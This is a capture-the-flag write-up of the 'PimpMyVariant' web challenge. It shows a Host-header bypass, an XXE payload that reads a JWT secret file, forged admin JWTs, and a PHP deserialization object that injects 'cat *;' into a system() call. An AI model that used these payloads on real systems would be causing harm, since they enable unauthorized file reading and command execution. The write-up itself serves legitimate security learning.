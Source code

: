 # PimpMyVariant (WEB)
### Solves : 77
## Introduction

So we fall on a page with covid variants list and apparently there's nothing in the page source code.

![image](https://user-images.githubusercontent.com/88440644/151672386-7af1f7b6-7bba-4889-aaaa-f0c2fed5faf8.png)

First thing we do is check robots.txt page. And we see that there's some endpoints :

![image](https://user-images.githubusercontent.com/88440644/151672246-e2ce96bf-05e0-467b-841b-7231a01b630b.png)

We saw the flag.txt and todo.txt but it's a rabbit hole :

![](https://cdn.discordapp.com/attachments/503921688657002516/937036562334617650/unknown.png)
![](https://cdn.discordapp.com/attachments/503921688657002516/937037397139546132/unknown.png)

So we want to check now the last three pages :
- /readme
- /new
- /log

But if we try to access them we get the following error :

![](https://cdn.discordapp.com/attachments/503921688657002516/937040834656895056/unknown.png)

## Hostname bypass

This step was pretty simple, we could bypass that by setting the **Host** header to `127.0.0.1`. I personally used ModHeader extension.

![image](https://user-images.githubusercontent.com/88440644/151671747-69b78037-d43f-4798-a51c-9c475e1f0299.png)

Now we get the location of the JWT secret, but we need to read this so let's find out how to do this.

## XXE Injection

By looking on the **/new** endpoint we see that we can submit a variant name that'll be add to the variants list :

![image](https://user-images.githubusercontent.com/88440644/151672156-a68f01e1-4d97-42d8-afae-2327666c2120.png)
![image](https://user-images.githubusercontent.com/88440644/151672171-a2df7ce3-646d-4b12-95a4-de99f455723d.png)

And if we look at the request made when we add a variant name we see that we're dealing with an XML request :

![image](https://user-images.githubusercontent.com/88440644/151672741-c0e427ab-21eb-42a7-a3a0-ee2777805e4d.png)

When a variant is added, a JWT token is generated that contains this variant name :

![image](https://user-images.githubusercontent.com/88440644/151673568-7b3d49bc-7354-4fb9-9a6c-44d1a26e5f45.png)

But now we need to exploit this XML request, and for that we want to exfiltrate the JWT secret file to be able to sign our own JWT token. To do this we'll use this XML payload that will put in the variant name the output of the file `jwt.secret.txt`:

```xml
<?xml version='1.0' encoding='utf-8'?>
<!DOCTYPE foo [ <!ELEMENT foo ANY > <!ENTITY xxe SYSTEM "file:///www/jwt.secret.txt" >]>
<root>
  <name>
    &xxe;
  </name>
</root>
```

![image](https://user-images.githubusercontent.com/88440644/151672641-56a35f03-bf13-4737-9f6a-fbf32f1bce2f.png)

Now we can see that the JWT secret is in the variants list and in the JWT token :

  - 54b163783c46881f1fe7ee05f90334aa

![image](https://user-images.githubusercontent.com/88440644/151675675-e27843d0-4a57-46bd-8b55-ae8babbdbdd7.png)

## PHP Deserialization

So we can sign a token, and if you saw there was a serialized object in the JWT token with the parameter **isAdmin** set to 0 (false). Our goal is to modify this value to 1 (true) to be able to access **/log** endpoint because it's only accessible to *admin*. So let's forge a JWT token with **isAdmin** sets to **0** thanks to the python PyJWT library :

```python
import jwt
token = jwt.encode({
  "variants": [
    "Alpha"
  ],
  "settings": "a:1:{i:0;O:4:\"User\":3:{s:4:\"name\";s:4:\"Anon\";s:7:\"isAdmin\";b:1;s:2:\"id\";s:40:\"42357db6af31f5c6f4ce007059799a9a330f7c9f\";}}",
  "exp": 1643480307
}, "54b163783c46881f1fe7ee05f90334aa", algorithm="HS256")
print(token)
```
Output : 
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ2YXJpYW50cyI6WyJBbHBoYSJdLCJzZXR0aW5ncyI6ImE6MTp7aTowO086NDpcIlVzZXJcIjozOntzOjQ6XCJuYW1lXCI7czo0OlwiQW5vblwiO3M6NzpcImlzQWRtaW5cIjtiOjE7czoyOlwiaWRcIjtzOjQwOlwiNDIzNTdkYjZhZjMxZjVjNmY0Y2UwMDcwNTk3OTlhOWEzMzBmN2M5ZlwiO319IiwiZXhwIjoxNjQzNDgwMzA3fQ.3-nXabEL-8rS0LM-AlOAevCIx5UshlEeVeaFtyTuUTQ
```

Now we can try to access to **/log** and we get a logging error:

![image](https://user-images.githubusercontent.com/88440644/151676112-f87bee76-c0a1-4e25-8ec2-712bf9daa7e7.png)

So the error is the following :

```php
[2021-12-25 02:12:01] Fatal error: Uncaught Error: Bad system command call from UpdateLogViewer::read() from global scope in /www/log.php:36
Stack trace:
#0 {main}
  thrown in /www/log.php on line 37
#0 {UpdateLogViewer::read}
  thrown in /www/UpdateLogViewer.inc on line 26
```

We can see another interesting file which is `/www/UpdateLogViewer.inc` and we can download it directly from the website at http://pimpmyvariant.insomnihack.ch/UpdateLogViewer.inc :

```php
<?php

class UpdateLogViewer
{
	public string $packgeName;
	public string $logCmdReader;
	private static ?UpdateLogViewer $singleton = null;
	
	private function __construct(string $packgeName)
	{
		$this->packgeName = $packgeName;
		$this->logCmdReader = 'cat';
	}
	
	public static function instance() : UpdateLogViewer
	{
		if( !isset(self::$singleton) || self::$singleton === null ){
			$c = __CLASS__;
			self::$singleton = new $c("$c");
		}
		return self::$singleton;
	}
	
	public static function read():string
	{
		return system(self::logFile());
	}
	
	public static function logFile():string
	{
		return self::instance()->logCmdReader.' /var/log/UpdateLogViewer_'.self::instance()->packgeName.'.log';
	}
	
    public function __wakeup()// serialize
    {
    	self::$singleton = $this; 
    }
};
```

So now just by seeing the `system()` call in `read()` function we can guess that it's a PHP deserialization vulnerability, by default the code will `cat` the content of `packgeName` log file but these are values we can control in the deserialization process.

So to achieve our exploit we're going to append our desire object into the array deserialized.

```php
public static function logFile():string
{
  return self::instance()->logCmdReader.' /var/log/UpdateLogViewer_'.self::instance()->packgeName.'.log';
}
```
The returned value is executed by `system()` so we can imagine the command executed behind to display the content of the current directory :

```php
system('cat *; /var/log/UpdateLogViewer_x.log');
```

So we craft our serialized object like that :

```php
a:2:{i:0;O:4:"User":3:{s:4:"name";s:4:"Anon";s:7:"isAdmin";b:1;s:2:"id";s:40:"bec9b80a3ed0ee3f0463d68bdef1128de828acb5";}i:1;O:15:"UpdateLogViewer":2:{s:10:"packgeName";s:1:"x";s:12:"logCmdReader";s:6:"cat *;";}}
```

We forge another token with that data and we get a new token :
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ2YXJpYW50cyI6WyJBbHBoYSJdLCJzZXR0aW5ncyI6ImE6Mjp7aTowO086NDpcIlVzZXJcIjozOntzOjQ6XCJuYW1lXCI7czo0OlwiQW5vblwiO3M6NzpcImlzQWRtaW5cIjtiOjE7czoyOlwiaWRcIjtzOjQwOlwiYmVjOWI4MGEzZWQwZWUzZjA0NjNkNjhiZGVmMTEyOGRlODI4YWNiNVwiO31pOjE7TzoxNTpcIlVwZGF0ZUxvZ1ZpZXdlclwiOjI6e3M6MTA6XCJwYWNrZ2VOYW1lXCI7czoxOlwieFwiO3M6MTI6XCJsb2dDbWRSZWFkZXJcIjtzOjY6XCJjYXQgKjtcIjt9fSIsImV4cCI6MTY0MzQ4MDMwN30.aDkxHvE53Wmy2BawAGWWrg868TMK1Sr_73ZL6cLbYLM
```

Now if we refresh the **/log** page we can get the flag that is displayed : `INS{P!mpmYV4rianThat's1flag}`

*Hope you enjoy, have a very good day !*
